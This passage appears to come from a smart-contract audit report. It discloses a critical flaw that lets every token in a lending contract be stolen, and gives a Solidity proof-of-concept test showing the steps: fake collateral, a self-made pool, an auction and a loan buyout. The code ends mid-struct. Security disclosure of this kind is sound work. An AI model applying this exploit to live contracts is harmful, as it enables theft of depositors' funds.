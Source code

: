 ## Impact
All tokens from the `lender` contract can be stolen. This is a critical issue.
### POC
Here are the tests that can be added to `Lender.t.sol` to illustrate the steps of an attacker:
```solidity
function test_exploit() public {
    // Setup
    address attacker = address(0x5);
    loanToken.mint(address(attacker), 1_000*10**18); // This could be done by a flash loan
    loanToken.mint(address(lender), 1_000*10**18);

    // Before the exploit
    assertEq(loanToken.balanceOf(address(lender)), 1_000*10**18);       // Lender has 1_000 loanToken
    assertEq(loanToken.balanceOf(address(attacker)), 1_000*10**18);     // Attacker has 1_000 loanToken

    // Exploit starts here
    vm.startPrank(attacker); // Attacker wants to steal loanTokens from the pool
    // (1) Create a worthless tokens
    TERC20 fakeToken = new TERC20();
    fakeToken.mint(address(attacker), 1_000_000*10**18);
    fakeToken.approve(address(lender), 1_000_000*10**18);
    // (2) Create a pool
    loanToken.approve(address(lender), 1_000*10**18);
    Pool memory attackerPool = Pool({
        lender: attacker,
        loanToken: address(loanToken),
        collateralToken: address(fakeToken),
        minLoanSize: 1,
        poolBalance: 1_000*10**18,
        maxLoanRatio: type(uint256).max,
        auctionLength: 1 days,
        interestRate: 0,
        outstandingLoans: 0
    });
    bytes32 attackerPoolId = lender.setPool(attackerPool);
    // (3) Take a loan in his own pool
    Borrow memory b = Borrow({
        poolId: attackerPoolId,
        debt: 1_000*10**18,
        collateral: 1
    });
    Borrow[] memory borrows = new Borrow[](1);
    borrows[0] = b;        
    lender.borrow(borrows);
    // (4) Put the loan up for auction
    uint256 loanId = 0;
    uint256[] memory loanIds = new uint256[](1);
    loanIds[0] = loanId;
    lender.startAuction(loanIds);
    // (5) Zapbuy the loan with a pool full of fake tokens
    Pool memory fakePool = Pool({
        lender: attacker,
        loanToken: address(fakeToken),
        collateralToken: address(fakeToken),
        minLoanSize: 1,
        poolBalance: 1_000*10**18,
        maxLoanRatio: type(uint256).max,
        auctionLength: 1 days,
        interestRate: 0,
        outstandingLoans: 0
```